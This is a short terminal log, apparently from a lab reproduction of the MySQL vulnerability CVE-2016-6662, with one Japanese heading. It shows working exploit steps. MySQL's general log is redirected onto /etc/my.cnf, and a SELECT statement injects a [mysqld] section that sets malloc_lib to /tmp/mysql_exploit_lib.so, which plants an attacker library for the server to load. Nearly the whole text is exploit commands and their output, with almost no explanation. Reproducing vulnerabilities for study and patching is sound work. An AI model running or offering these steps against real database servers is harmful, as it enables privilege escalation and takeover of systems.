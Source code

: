 ```
root@CVE-2016-6662:~# ls -l /etc/my.cnf
-rw------- 1 mysql mysql 70  9月 13 17:31 /etc/my.cnf
root@CVE-2016-6662:~# cat /etc/my.cnf
[mysqld]

key_buffer              = 16M
max_allowed_packet      = 16M
```

 * my.cnfに設定を注入

```
mysql> set global general_log_file = '/etc/my.cnf';
Query OK, 0 rows affected (0.00 sec)
mysql> set global general_log = on;
Query OK, 0 rows affected (0.00 sec)
mysql> select '
    '>
    '> ; injected config entry
    '>
    '> [mysqld]
    '> malloc_lib=/tmp/mysql_exploit_lib.so
    '>
    '> [separator]
    '>
    '> ';
+-----------------------------------------------------------------------------------------+
| ; injected config entry

[mysqld]
malloc_lib=/tmp/mysql_exploit_lib.so

[separator]

   |
+-----------------------------------------------------------------------------------------+
|

; injected config entry

[mysqld]
malloc_lib=/tmp/mysql_exploit_lib.so

[separator]

 |
+-----------------------------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql> set global general_log = off;
Query OK, 0 rows affected (0.00 sec)
```
